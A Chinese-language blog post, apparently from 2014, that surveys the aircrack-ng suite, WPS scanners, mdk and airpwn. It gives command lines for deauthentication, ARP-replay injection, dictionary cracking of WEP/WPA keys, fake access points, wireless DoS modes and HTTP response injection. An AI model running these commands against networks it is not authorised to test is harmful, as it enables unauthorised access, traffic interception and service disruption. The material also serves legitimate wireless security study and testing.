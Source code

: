 ```yaml
---
author: wangguohao
comments: true
date: 2014-07-12 13:40:32+00:00
layout: post
slug: '%e6%97%a0%e7%ba%bf%e7%bd%91%e7%bb%9c%e5%ae%89%e5%85%a8%e5%88%9d%e6%8e%a2'
title: 无线网络安全工具初探
wordpress_id: 362
categories:
- network
---
```


###### wifi工具包: net-wireless/aircrack-ng





	
  * airbase-ng:中间人攻击，伪造ap并且将无线的流量转发到有线网络



	
  * aircrack-ng:主要用于wep以及wpa-psk的恢复，依赖于dump的数据包，此工具就可以自动测试是否可以破解



	
  * airdecap-ng:用来解开加密状态的数据包



	
  * airdecloak-ng:用于分析无线数据报文时过滤出指定无线网络数据



	
  * airdriver-ng:用户查看工具包支持的芯片



	
  * airdrop-ng:基于策略的无线Deauth的工具



	
  * aireplay-ng:在进行wep和wap-psk的密码恢复时候，可以根据需要创建特殊的无线数据包报文



	
  * airgraph-ng



	
  * airmon-ng:网卡监控模式



	
  * airodump-ng:抓取空中传播的数据包



	
  * airolib-ng:进行wpa彩虹表攻击时使用，用于建立特定的数据库文件



	
  * airserv-ng:可以将无线网卡连接到特定端口，为攻击时灵活调用准备



	
  * airtun-ng:



	
  * besside-ng



	
  * easside-ng: 用户wep的自动破解



	
  * packetforge-ng:主要用于构造特殊的数据包，用于无客户端的破解



	
  * tkiptun-ng:主要针对wpa tkip中启用qos的网络的注入



	
  * wesside-ng


文档链接[这里 ](http://www.aircrack-ng.org/doku.php#documentation)

使用套件的一般流程



	
  * 0x01:开启网卡的监控模式


参数说明：

    
    root@kail:~/wireless# airmon-ng start waln0





	
  * 0x02:抓取无线数据帧


参数说明：-w后面是写入文件，--ivs酌情使用，-c后面是信道

    
    root@kali:~/wireless# airodump-ng -w hg -c 6 mon0





	
  * 0x03:刺激ap生成需要的数据包


wep的Request注入攻击加快有效的数据包生成

参数说明：-3 (--arpreplay)就是攻击编号，-b后面是ap的MAC，-h后面是Client的MAC

    
    root@kali:~/wireless# aireplay-ng -3 -b 9C:21:6A:7E:2C:EC -h 64:5A:04:33:75:18 mon0


wap的Deauth攻击获取wpa的握手报文：

参数说明：-0 (--deauth)就是攻击编号,后面是数据包数量，-a后面是ap的MAC，-c后面是Client的MAC

    
    root@kali:~/wireless# aireplay-ng -0 1 -a 9C:21:6A:7E:2C:EC -c 64:5A:04:33:75:18 mon0





	
  * 0x04:对密码的破解


web的破解,后面是.cap或者ivs文件

    
    root@kali:~/wireless# aircrack-ng hg-01.cap


对于wpa的破解,-w 后面是字典文件

    
    root@kali:~/wireless# aircrack-ng -w /usr/share/dictionary/words hg-01.cap





	
  * 0x05:一些辅助工具


.cap提取.ivs文件：

    
    root@kali:~/wireless# ivstools --convert hg-05.cap hg-05.ivs


把.ivs文件合成一个：

    
    root@kali:~/wireless# ivstools  --merge hg-01.ivs hg-02.ivs hg-05.ivs hg.ivs
    


解密无线数据帧，参数说明：-l 不移除802.11头部

    
    root@kali:~/wireless# airdecap-ng -l -e ESSID -p password hg-01.cap


热点伪造

    
    root@kali:~/wireless# airbase-ng -c 6 -A -Z 2 mon0


无线跳板的工具

    
    ➜  ~  airserv-ng
    
      Airserv-ng 1.2 beta3 - (C) 2007, 2008, 2009 Andrea Bittau
      http://www.aircrack-ng.org
    
      Usage: airserv-ng <options>
    
      Options:
    
           -h         : This help screen
           -p  <port> : TCP port to listen on (default:666)
           -d <iface> : Wifi interface to use
           -c  <chan> : Channel to use
           -v <level> : Debug level (1 to 3; default: 1)
    


基于策略的无线Deauth，下面策略的语法

    
    #deny rules
    d/0a:00:27:00:00:03|dc:0e:a1:f4:3f:01
    Deny    AP              Client
    #------------------
    a/any|any
    



    
    ➜  wireless  airdrop-ng -i mon0 -t hg-01.csv -r rule


对抓取的数据包内容进行过滤（其实可以在dump时候用参数指定）

    
    ➜  wireless  airdecloak-ng --bssid 0a:00:27:00:00:03 --filters signal -i hg-01.cap





###### 关于wps的:




wps 扫描工具: [这里](http://www.sourcesec.com/Lab/wps_tools.tar.gz)





wpscan.py:扫描开启的无线路由器




wpspy.py:检测wps的状态




fix:如果运行出现：Caught exception sniffing packets: global name 'sniff' is not defined解决方案，修改一下python构造包的倒入，我下面的方法是简化的，但是意思一样




    
    #!/usr/bin/env python
    
    from sys import argv, stderr, exit
    from getopt import GetoptError, getopt as GetOpt
    from scapy.all import *
    





###### 无线dos工具:net-wireless/mdk



    
    b   - Beacon Flood Mode
          Sends beacon frames to show fake APs at clients.
          This can sometimes crash network scanners and even drivers!
    a   - Authentication DoS mode
          Sends authentication frames to all APs found in range.
          Too much clients freeze or reset some APs.
    p   - Basic probing and ESSID Bruteforce mode
          Probes AP and check for answer, useful for checking if SSID has
          been correctly decloaked or if AP is in your adaptors sending range
          SSID Bruteforcing is also possible with this test mode.
    d   - Deauthentication / Disassociation Amok Mode
          Kicks everybody found from AP
    m   - Michael shutdown exploitation (TKIP)
          Cancels all traffic continuously
    x   - 802.1X tests
    w   - WIDS/WIPS Confusion
          Confuse/Abuse Intrusion Detection and Prevention Systems
    f   - MAC filter bruteforce mode
          This test uses a list of known client MAC Adresses and tries to
          authenticate them to the given AP while dynamically changing
          its response timeout for best performance. It currently works only
          on APs who deny an open authentication request properly
    g   - WPA Downgrade test
          deauthenticates Stations and APs sending WPA encrypted packets.
          With this test you can check if the sysadmin will try setting his
          network to WEP or disable encryption.
    




###### 无线欺骗net-wireless/airpwn


通过无线数据包匹配的地方修改替换掉，并且伪装为AP发送数据

    
    ➜  ~  cat /usr/share/airpwn/conf/js_html 
    begin js_html
    match ^(GET|POST)
    ignore ^GET [^ ?]+\.(jpg|jpeg|gif|png|tif|tiff)
    response /usr/share/airpwn/content/js_html


Regular expression alike

    
    airpwn -c /usr/share/airpwn/conf/greet_html -i mon0 -d mac80211 -vvv -F


针对open的，-k 参数后面可以加 wep的密码，wap没有看到参数
